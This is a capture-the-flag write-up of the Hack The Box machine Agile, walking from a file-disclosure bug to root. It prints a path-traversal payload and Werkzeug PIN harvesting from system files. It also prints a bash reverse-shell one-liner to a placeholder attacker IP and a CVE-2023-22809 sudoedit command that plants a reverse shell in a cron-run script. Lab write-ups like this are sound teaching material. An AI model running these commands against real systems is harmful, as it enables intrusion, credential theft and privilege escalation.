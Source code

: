 🚀 HTB: Agile – Full Walkthrough

🧠 TL;DR

    File disclosure vulnerability exploited for initial foothold

    Werkzeug debugger PIN generated to access Python console → reverse shell

    MySQL credentials extracted via disclosed config

    Port forwarding unlocked remote debug interface → user credential discovery

    Privilege escalation via misconfigured sudo and CVE-2023-22809 exploit

    Root achieved through malicious shell injection into a cron-executed script

🔍 Reconnaissance & Initial Access

Performed standard enumeration using nmap:

nmap -sC -sV -v <target-ip>

Result: No significant services exposed.

On visiting the site hosted on port 80, I encountered a login page. Out of curiosity, I attempted to access /register and was surprised to find an active registration page — likely discoverable via gobuster or feroxbuster.

After registering and logging in, I was redirected to a /vault page.
📁 File Disclosure Exploitation

On the /vault page, I tested for SSTI but it didn’t yield results.

I then intercepted the export/download request via BurpSuite and tested with:

../../../../../../../etc/passwd

Success! The app was vulnerable to a file disclosure vulnerability. This allowed quick inspection of any file on the server via crafted download requests.
🔓 Werkzeug Debug Console Access

I noticed a console icon in the browser UI — indicating a Werkzeug debugger running in production.

The console was PIN-protected.

I followed HackTricks guidance and retrieved necessary components to generate a valid Werkzeug console PIN, using the file disclosure to collect:

    Username (www-data) from /proc/self/environ

    MAC address from /sys/class/net/eth0/address

    Device ID from /proc/net/arp

    Machine ID from /etc/machine-id

    App path (from browser source hints)

Once all parameters were fed into the PIN-generation script, I successfully unlocked the debugger console.
⚙️ Gaining Shell Access

Using the unlocked Werkzeug console, I ran:

import os
os.system("/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1'")

✅ Reverse shell landed as www-data.
🐚 Credential Discovery via File Disclosure

While exploring environment variables, I found reference to:

/app/config_prod.json

Inside this config file were MySQL credentials:

    Username: superpassuser

    Password: (retrieved)

Logged into MySQL and found a database: superpass, which held users and passwords tables.

Exported both and mapped usernames to passwords by aligning record order. Used CrackMapExec (CME) to test these credentials.

Got a valid hit:

ssh corum@<target-ip>

✔️ Shell as corum
🛠 Remote Debug Port & Port Forwarding

While enumerating further, I found test_site_interactively.py, referencing a debug port 41829.

Verified port availability, then initiated local port forwarding via:

<ALT GR> + ~  then CTRL + C

Accessed the port in Chromium:

    Open chrome://inspect

    Configure → add localhost:41829

    Click “Inspect”

Navigated to /vault on the target domain test.superpass.htb, and surprisingly discovered SSH credentials for user edwards.
🔐 SSH as Edwards & Privilege Escalation

Logged in as edwards. Checked sudo -l and found commands restricted to dev_admin group.

Searched for files owned by dev_admin, found /app/venv/bin/activate, which is invoked by:

/app/test_and_update.sh

Used a crafted sudoedit trick (based on CVE-2023-22809):

EDITOR="vim -- /app/venv/bin/activate" sudoedit -u dev_admin /app/app-testing/tests/functional/creds.txt

Injected a bash reverse shell payload into activate.
⏱️ Cronjob Trigger to Root

Waited for the system to execute the script via a cronjob.

✔️ Reverse shell landed as root
🧠 Key Learnings & Techniques
Step	Technique
Initial Access	File Disclosure → Werkzeug console unlock
Privilege Escalation	Misconfigured sudo + cron + CVE-2023-22809
Tools Used	BurpSuite, HackTricks, CrackMapExec, Chromium (inspect), Vim, Port Forwarding
Reverse Shell	Bash one-liner via Werkzeug & script injection
🏁 Summary

    ✅ Enumerated login and registration endpoints

    ✅ Discovered file disclosure and extracted sensitive files

    ✅ Accessed Werkzeug console via reverse-engineered PIN

    ✅ Leveraged exposed config for MySQL credentials

    ✅ Port-forwarded to internal service to extract further credentials

    ✅ Abused sudo misconfig and cron for root access

🎉 Rooted: HTB Agile

User Flags: ✅
Root Flags: ✅
Difficulty: Medium
Techniques: Clean, realistic, post-exploitation-heavy

